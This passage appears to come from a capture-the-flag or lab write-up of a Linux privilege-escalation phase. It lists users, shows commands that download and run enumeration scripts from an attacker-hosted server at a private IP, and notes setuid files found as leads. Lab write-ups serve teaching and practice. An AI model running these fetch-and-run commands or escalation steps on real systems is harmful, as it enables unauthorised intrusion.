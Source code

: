 ```
user6@osboxes>  
user6@osboxes> users
root
mysql
user1
user2
user3
user4
user5
user6
user7
user8
```

## Phase #3: Privilege Escalation
1\. We start with downloading the privesc enumerations scripts:  
```
wget http://192.168.92.163:8000/lse.sh ; chmod +x ./lse.sh ; ./lse.sh | tee lse.txt
wget http://192.168.92.163:8000/linenum.sh ; chmod +x ./linenum.sh ; ./linenum.sh | tee linenum.txt
wget http://192.168.92.163:8000/linuxprivchecker.py ; chmod +x ./linuxprivchecker.py ; python ./linuxprivchecker.py | tee linuxprivchecker.txt
```

2\. We also explore the `home` directories of users and find some inetresting files:  
```
/home/user3/shell → setuid
/home/user4/abc.txt → owned by root
/home/user5/script → setuid
```

